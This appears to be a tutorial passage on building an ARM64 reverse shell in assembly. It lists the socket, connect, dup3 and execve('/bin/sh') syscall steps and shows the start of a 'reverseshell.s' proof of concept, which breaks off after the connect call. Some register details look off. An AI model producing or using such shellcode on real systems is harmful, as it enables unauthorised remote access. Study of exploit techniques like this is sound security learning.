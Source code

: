 This is very simple to accomplish. It takes place at the start of the program and will force our instructions and CPU to use THUMB-mode. This is done by branching our program\_counter+1 (`pc+1`).

This is our program counter register, the equivalent to the Instruction Pointer in x86\_64, this is a special-purpose register that holds the address of the next instruction to be executed by the CPU.

Building out your socket connection in ASM might seem a little daunting at first, but I'm here to tell you that you don't have to worry at all, I'm going to break this down for you as much as possible.&#x20;

{% hint style="info" %}
However, we're going to be focused on simplicity and staying in ARM mode for the first tutorial and then we'll gradually up the complexity with introducing THUMB mode as this is a bit of a learning curve for me as well.
{% endhint %}

### Socket Structure

1. Create a <mark style="color:yellow;">socket</mark> -> `mov w8,`` `<mark style="color:green;">`#198`</mark>
2. <mark style="color:yellow;">Connect</mark> to the <mark style="color:yellow;">socket</mark> -> `mov w8,`` `<mark style="color:green;">`#203`</mark> -- This will reference your <mark style="color:yellow;">struct</mark> that will hold important networking information such as the callback address&#x20;
3. duplicate3 (<mark style="color:yellow;">`dup3`</mark>) -- This will be split into three sections and is used for <mark style="color:yellow;">stdin</mark> (0), <mark style="color:yellow;">stdout</mark> (1), and <mark style="color:yellow;">stderr</mark> (2) for our socket's file descriptor (`sockfd`)
   1. You will be creating three of these sections using `dup3` in your code
   2. `dup3` utilizes syscall ID 24 -> `mov w8,`` `<mark style="color:green;">`#24`</mark>
4. Call <mark style="color:yellow;">`execve("/bin/sh")`</mark> -- This will execute the string `"/bin/sh"` and grant us a usable shell that our socket can access remotely -> `mov 28,`` `<mark style="color:green;">`#221`</mark>
5. <mark style="color:yellow;">Create</mark> your <mark style="color:yellow;">struct</mark>, this will hold your IP type (IPv4, IPv6, likely going to use AF\_INET), port number, and your IP address for the system to establish a remote connection back to
6. Specify your "<mark style="color:yellow;">/bin/sh</mark>" as a variable to keep things easily readable

{% hint style="info" %}
Keep on reading to see this in action and what all gets added into our PoC!
{% endhint %}

`reverseshell.s`:

```nasm
.section .text
.global _start
_start:

// socket(2, 1, 0) 
            mov   x0, #2
            mov   x1, #1
            mov   x2, #0
            mov   w8, #198
            svc   #1              // x0 = resultant sockfd 
            mov   x4, x0          // save sockfd in x4 

// connect(r0, &sockaddr, 16) 
        mov   x0, x4            // write 0 for AF_INET 
        adr   x1, sockaddr        // pointer to address, port 
        mov   x2, #16
        mov   w8, #203         // x8 = 203 (connect)
        svc   #1

// dup3(sockfd, 0, 0) 
```